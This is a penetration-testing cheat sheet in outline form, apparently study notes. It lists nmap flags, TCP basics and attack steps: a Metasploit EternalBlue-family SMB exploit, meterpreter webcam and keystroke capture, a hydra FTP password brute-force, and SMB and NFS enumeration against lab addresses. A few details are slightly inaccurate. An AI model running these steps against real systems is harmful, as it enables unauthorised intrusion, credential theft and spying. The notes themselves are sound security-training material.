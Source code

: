 
1. Metasploit:
	1. nmap –A –sC 192.168.1.2 #( -sC nmap default scripts )
	2. msfconsole
		1. search
		2. use exploit/windows/smb/ms17_010_psexec
		3. show options
		4. set RHOSTS 192.168.1.2
		5. exploit
2. Scanning Network
	1. Port states:
		1. open - indicates that an application is listening for connections on the port. The primary goal of port scanning is to find these.
		2. closed - indicates that the probes were received but there is no application listening on the port
		3. filtered - indicates that the probes were not received, and the state could not be established.
		4. unfiltered - indicates that the probes were received but a state could not be established. In other words, a port is accessible, but Nmap is unable to determine whether it is open or closed.
		5. open|filtered - indicates that the port was filtered or open, but Nmap couldn’t establish the state
		6. closed|filtered - indicates that Nmap is unable to determine whether a port is closed or filtered
	2. TCP Header:
		1. 20-60 bytes
			1. Source port address: 16 bits, destination port address: 16 bits
			2. Sequence number: 32 bits
			3. Acknowledgement number: 32 bits
			4. HLEN: 4 bits, Reversed: 6 bits, URG/ACK/PSH/RST/SYN/FIN, Windows size: 16 bits
			5. Checksum: 16 bits, Urgent pointer: 16 bits
			6. Options and padding
	3. TCP Handshake:
		1. SYN -> SYN+ACK -> ACK
	4. Connection termination
		1. FIN -> FIN+ACK -> ACK
	5. Scan types:
		1. -sA - ACK scan
		2. -sF - FIN scan
		3. -sI - IDLE scan
		4. -sL - DNS scan (list scan)
		5. -sN - NULL scan
		6. -sO - Protocal scan
		7. -sP - Ping scan
		8. -sR - RPC scan
		9. -sS - SYN scan
		10. -sT - TCP Connect scan
		11. -sW - TCP Window port scan
		12. -sX - XMAS scan
		13. -PI - ICMP ping
		14. -Po - No ping
		15. -PS - SYN ping
		16. -PT - TCP ping
		17. -oN - Normal output
		18. -oX - XML output
		19. -T0 - serial slowest scan
		20. -T1 - serial slowest scan
		21. -T2 - serial normal speed scan
		22. -T3 - parallel normal speed scan
		23. -T4 - parallel, fast scan
		24. -sn - disable port scanning
		25. -iL - scan targets from file (next arg)
		26. -iR 100 - scan 100 random hosts
		27. --exclude - exclude listed hosts
		28. -sM - TCP maimon scan
		29. -Pn - disable host discovery - port scan only
		30. -PA - TCP ACK discovery
		31. -PU - UDP discovery
		32. -PR - ARP discovery
		33. -n - never do DNS resolution
		34. -sV - version detection
		35. -b - FTP bounce attack
	6. -sU - UDP scan
		1. open - any UDP response from target port
		2. open|filtered - no response received (even after retransmission)
		3. closed - ICMP port unreachable error (type3, code3)
		4. filtered - other UCMP unreachable errors (type3, code 1,2,9,10 or 13)
	7. Host and port options:
		1. --excludefile <exclude_file>
	8. Ping options:
		1. -PE - ICMP echo request ping
		2. -PP - icmp timestamp ping
		3. -PM - icmp address mask ping
		4. -P0, -PN, -PD - don't ping
		5. -R - require reverse
		6. --dns-servers - specify DNS servers
	9. Real-time information options:
		1. --verbose, -v - verbose mode
		2. --version-trace 
		3. --packet-trace
		4. --debug, -d
		5. --interactive
		6. --noninteractive
	10. OS fingerprinting:
		1. -O - OS fingerprinting
		2. --osscan-limit - limit system scanning
		3. --osscan-guess, --fuzzy - more guessing flexibility
		4. -A - additional, advanced and Aggressive
3. Vulnerability Assessment
	1. searchsploit (@KaliLinux) - exploitDB
		1. e.g. searchsploit vsftpd 2.3.4
	2. Nessus
4. Post Exploitation
	1. meterpreter
		1. webcam_stream
		2. keyscan_scan
		3. screenshot
		4. screenshare
		5. run winenum
		6. shell
5. FTP exploitation
	1. ftp <ip_address>
	2. ls
	3. hydra ‐l mike ‐P /usr/share/wordlists/rockyou.txt –v 10.10.223.20 ftp 
6. SMB exploitation
	1. ports: 139, 445 - netbios-ssn, microsoft-ds
	2. sudo nmap ‐‐script smb‐os‐discovery.nse 10.10.50.26
	3. Smbclient ‐L
	4. Smbclient //10.10.50.26/share
7. Telnet Exploitation
	1. port 23
	2. telnet $IP $PORT
8. Privileges escalation in NFS
	1. nmap -sV --script=nfs-showmount 192.168.1.102
	2. apt-get install nfs-common && showmount -e 192.168.1.102